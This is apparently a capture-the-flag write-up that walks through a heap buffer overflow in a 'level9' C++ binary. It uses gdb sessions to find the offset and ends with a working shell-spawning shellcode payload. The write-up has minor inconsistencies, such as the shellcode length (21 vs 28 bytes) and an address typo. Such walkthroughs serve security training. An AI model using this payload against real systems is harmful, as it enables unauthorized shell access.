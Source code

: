 We started by running the executable and found that it currently does nothing significant.
Analyzing it with `gdb`, we identified five interesting functions:
```
...
N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)
main
...
```
The main function is written in C/C++, and there are no direct calls to `/bin/sh`, indicating that we will need to use shellcode to exploit this program.

The `setAnnotation()` function uses `memcpy()` on `argv[1]`, making it vulnerable to a buffer overflow. We need to determine the offset at which the buffer overflows.

We determine the offset with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```
The offset of `eax` start at 108.

We selected a 21-byte shellcode from: https://shell-storm.org/shellcode/files/shellcode-752.html

To exploit the buffer overflow, we must find the start address of our buffer and replace the value of `esp+0x10 `with it, ensuring that the call to `edx` will execute our shellcode.
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141
```

The value of `[esp+0x10]` will be replaced with `0x804a00c`.
Because we need to dereference again, this address will points to the beginning of our shellcode : `0x804a00x + 4 = 0x804a010`.

Our payload structure is:
-   Shell Address: 4 bytes
-   Shellcode: 28 bytes
-   Padding: 76 bytes
-   Buffer Address: 4 bytes

Final exploit payload::
```
python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```
